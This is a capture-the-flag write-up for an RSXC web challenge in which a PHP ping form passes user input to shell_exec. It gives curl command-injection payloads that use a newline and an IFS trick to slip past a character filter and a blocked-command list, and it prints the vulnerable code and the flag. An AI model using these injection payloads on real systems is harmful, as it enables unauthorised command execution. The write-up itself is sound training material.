 # 5 - Raising the Bar

Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

http://rsxc.no:9009

# Note

Number 3 to 6 I used a few minutes to check out, then I randomly tested if the flag was unprotected as it is in the same folder as the `index.php` and sure enough. I could just access `flag.txt` by adding that to the URL. So my points skyrocketed at that moment. 

I knew that was not the intended solution so even if I got the flag I wanted to complete it "legally" before continuing so I could write a proper writeup.

**Update**: This was fixed later on and flag is now in `/flag.txt`. This writeup still works the same just add a `/`

# Writup

Trying some of the same stuff here, it seems to not allow `{` or `}`. 

Again using [this](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces) there is a comment showing how you can change the IFS to make a valid command without space.

```console
toffe@kali:~$ curl http://rsxc.no:9009 -d "ip=
IFS=:
a=tail:flag.txt
\$a"
```

Bingo.

Again php:

```php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $ip = $_POST['ip'];

    if (preg_match('/[&|;`\'"{}@]/',$ip)) {
        echo "<p align='center' style='color:red;'>Illegal Input Discovered</p>";
        die();
    }

    $blocked_commands = array("dir", "strings", "ls", "cat", "whoami", "pwd", "ps", "id", "echo", "kill", "touch", "more");
    foreach($blocked_commands as $command) {
        if (stripos($ip, $command) !== false) {
            echo "<p align='center' style='color:red;'>Illegal Command Discovered</p>";
            die();
        }
    }

    $output = shell_exec("ping -c 1 $ip");
    echo "<pre class='output'>$output</pre>";
}
```

I see that I just assumed that `space` was blocked as the two previous tasks had it blocked.. So I could made it a bit easier for myself:

```console
toffe@kali:~$ curl http://rsxc.no:9009 -d "ip=
tail flag.txt"
```

# Flag

```
RSXC{I_SEE_YOU_BYPASSED_THE_EXTRA_LIMITATIONS_GREAT_WORK!}
```